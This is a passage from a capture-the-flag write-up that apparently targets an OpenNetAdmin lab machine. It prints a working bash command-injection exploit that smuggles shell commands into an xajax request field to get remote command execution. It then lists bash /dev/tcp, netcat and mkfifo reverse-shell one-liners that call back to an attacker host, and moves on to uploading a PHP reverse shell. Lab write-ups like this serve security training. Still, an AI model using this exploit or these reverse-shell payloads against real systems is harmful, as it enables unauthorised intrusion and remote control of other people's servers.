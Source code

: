 ```
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

### Basic Exploit Analysis

*Analyzing the exploit,* it looks like a bash script given the shebang `#!/bin/bash`.

it takes a `url` as the argument and reads a command from the user to include it in the request.

*since it doesn't look malicious,* we run it and give it the url of the application `http://10.10.10.171/ona/` as an argument

`./exploit.sh http://10.10.10.171/ona/`

and we get command execution!

![RCE](RCE.jpg)

### Trying to get a real shell

we try to get a full-fledged shell using the standard reverse shell payloads:
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `nc -nv <LHOST> <LPORT> -e /bin/bash`
3. `rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

but no dice :/

we decide to upload a **php reverse shell** instead using the one in `/usr/share/webshells`

![upload-rev](upload-rev.jpg)
